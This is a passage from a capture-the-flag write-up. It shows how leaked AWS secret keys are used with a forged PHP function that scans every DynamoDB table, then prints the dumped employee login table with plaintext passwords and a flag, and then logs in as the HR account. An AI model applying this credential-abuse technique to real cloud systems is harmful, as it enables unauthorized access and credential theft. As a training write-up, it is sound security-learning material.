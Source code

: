 ```php
```
#### Flag 2
The secret key to the aws being leaked, we can forge our own `dynamo.php` and write a PHP function as such:
```php
function print_all_tables() {
        $result = $this->db->listTables();
        $tables = $result->get('TableNames');
        foreach ($tables as $table) {
            echo "Table: $table\n";
            $scanParams = [
                'TableName' => $table,
            ];
            $result = $this->db->scan($scanParams);
            $items = $result->get('Items');
            foreach ($items as $item) {
                echo "Item: ";
                foreach ($item as $key => $value) {
                    $attributeName = $key;
                    $attributeValue = reset($value);
                    echo "$attributeName: $attributeValue | ";
                }
                echo "\n";
            }
            echo "\n";
        }
    }
```
Running our own local PHP webserver with the modified `dynamo.php` version and calling `print_all_tables()` gives out the following output:
```
Table: GOD_LoginEmployee
Item: EmployeeId: 939932RQJX | Password: mlOfN2nSe8TljsloxByx | 
Item: EmployeeId: 516152CDSK | Password: x78X5EuKqmz62c7dfzSM | 
Item: EmployeeId: 328757EQYH | Password: NU4i4OBbU0N83ZCzs8gn | 
Item: EmployeeId: 864040VQNZ | Password: cwfbItzwJFQTWC7GqJZG | 
Item: EmployeeId: 978273KULS | Password: ujUPZ78AD1PN5K4FF6AW | 
Item: EmployeeId: hr_913126IBKU | Password: flag-9add6a1bb1cde15c378eacbacd720efc69501967 | 
Item: EmployeeId: 459849NCNT | Password: 4vlHZwOhwDOKs5AETOhe | 
Item: EmployeeId: 442414ENVE | Password: wu9H9zpVMUEby6ZmR1Vw | 
Item: EmployeeId: 707422TCTL | Password: Lb1IR2j7MohqANhmzV3U | 
Item: EmployeeId: 044965WUMD | Password: 5I6xMkpWDprgap6uNqsx | 
Item: EmployeeId: 262271SZZC | Password: epil18yTpvnRwNuSH2HE | 
Item: EmployeeId: 934803VDAT | Password: 0r62fCuzqP38b3EjFrI4 | 
Item: EmployeeId: 120875ABAB | Password: sqacOjyly6bpWoltCZnu | 
```
#### Flag 3
Logging in as `hr_913126IBKU` we see all the reviews left for employees. One review left for employee `978273KULS` is:
`You have written solid documentation! (link to a markdown file).`
